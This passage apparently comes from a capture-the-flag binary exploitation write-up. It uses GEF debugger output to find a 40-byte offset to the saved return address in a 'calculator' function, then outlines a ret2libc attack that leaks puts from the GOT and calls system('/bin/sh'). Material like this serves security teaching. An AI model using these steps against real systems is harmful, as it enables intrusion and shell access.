 ```console
     0x4010cf <calculator+105> mov    eax, edx
     0x4010d1 <calculator+107> test   eax, eax
 →   0x4010d3 <calculator+109> jne    0x4010e3 <calculator+125>	TAKEN [Reason: !Z]
   ↳    0x4010e3 <calculator+125> lea    rdi, [rip+0x316]        # 0x401400
        0x4010ea <calculator+132> call   0x400dcd <printstr>
        0x4010ef <calculator+137> jmp    0x4010fb <calculator+149>
        0x4010f1 <calculator+139> mov    eax, 0x0
        0x4010f6 <calculator+144> call   0x401066 <calculator>
        0x4010fb <calculator+149> nop    
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "controller", stopped 0x4010d3 in calculator (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4010d3 → calculator()
[#1] 0x401160 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤ 
```

So our breakpoint hit, Now, We need to find the offset between our input ```AAAAAAAA``` to ```rip``` register:
```console
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x603000-0x624000), permission=rw-
  0x6032a0 - 0x6032ac  →   "AAAAAAAA\n\n" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdea0 - 0x7fffffffdea8  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0x7fffffffded0:
 rip = 0x4010d3 in calculator; saved rip = 0x401160
 called by frame at 0x7fffffffdef0
 Arglist at 0x7fffffffdec0, args: 
 Locals at 0x7fffffffdec0, Previous frame's sp is 0x7fffffffded0
 Saved registers:
  rbp at 0x7fffffffdec0, rip at 0x7fffffffdec8

```

rip at ```0x7fffffffdec8``` and our buffer input on ```0x7fffffffdea0``` the offset ```0x7fffffffdec8-0x7fffffffdea0=0x28``` It's mean we need to insert 28 bytes (because ```char local_28 [28];```) and 12 bytes (40-28) padding to overwrite rip:

```
| buffer 28 bytes - local_28[28] | ..padding 12 bytes... | rip
```

From this point it’s a pretty standard ret2libc attack.

Since ASLR will most likely be enabled on the target system, we need to leak a libc address first.

Steps:
1. Get bufferoverflow then leak an address from ```libc``` (address of ```puts```), We can leak the address from [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table).
2. Calculate the offset between ```puts``` leak address to libc ```puts``` address.
3. Standard ret2libc attack (call ```system``` with ```/bin/sh```).
